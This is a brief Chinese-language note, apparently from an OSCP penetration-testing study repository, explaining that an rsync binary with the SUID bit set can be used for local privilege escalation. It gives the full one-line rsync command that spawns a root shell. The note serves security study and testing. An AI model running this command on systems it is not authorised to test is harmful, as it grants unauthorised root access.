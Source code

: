  #rsync

`rsync` 若具有 `s` 权限，可使用如下命令直接提权至 root 权限：

```
rsync -e 'sh -p -c "sh -p 0<&2 1>&2"' 127.0.0.1:/dev/null
```
![rsync](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-rsync.png)
